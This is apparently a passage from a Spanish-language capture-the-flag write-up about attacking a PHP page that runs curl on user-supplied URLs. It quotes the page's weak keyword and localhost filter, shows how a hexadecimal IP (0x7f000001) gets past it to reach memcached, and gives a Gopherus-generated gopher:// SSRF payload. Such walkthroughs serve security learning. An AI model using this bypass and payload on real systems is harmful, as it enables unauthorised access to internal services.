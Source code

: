 La cadena coincide, por lo que es muy probable que corresponda al tipo. Veo el archivo ```template.php```

```null
function safe($url)
{
    // this should be secure
    $tmpUrl = urldecode($url);
    if(strpos($tmpUrl, "file://") !== false or strpos($tmpUrl, "@") !== false)
    {       
        die("<h2>Hacking attempt prevented (LFI). Event has been logged.</h2>");
    }
    if(strpos($tmpUrl, "-o") !== false or strpos($tmpUrl, "-F") !== false)
    {       
        die("<h2>Hacking attempt prevented (Command Injection). Event has been logged.</h2>");
    }
    $tmp = parse_url($url, PHP_URL_HOST);
    // preventing all localhost access
    if($tmp == "localhost" or $tmp == "127.0.0.1")
    {       
        die("<h2>Hacking attempt prevented (Internal SSRF). Event has been logged.</h2>");      
    }
    return $url;
}

function url_get_contents ($url) {
    $url = safe($url);
    $url = escapeshellarg($url);
    $pl = "curl ".$url;
    $output = shell_exec($pl);
    return $output;
}
```

Se está ejecutando un ```curl``` a nivel de sistema. Es posible llegar a conectarse al ```memcached``` introduciendo la IP en hexadecimal, ya que no está sanitizado

```null
memcache://0x7f000001:11211/?timeout=60&prefix=xct_
```

Utilizo la herramienta ````Gopherus```. Disponible en [Github](https://github.com/tarunkant/Gopherus). Esto se encarga de crear una data serializada que se interpretará a través del SSRF

```null
gopherus --exploit phpmemcache


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$


This is usable when you know Class and Variable name used by user

Give serialization payload
example: O:5:"Hello":0:{}   : Test

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%204%0d%0aTest%0d%0a

```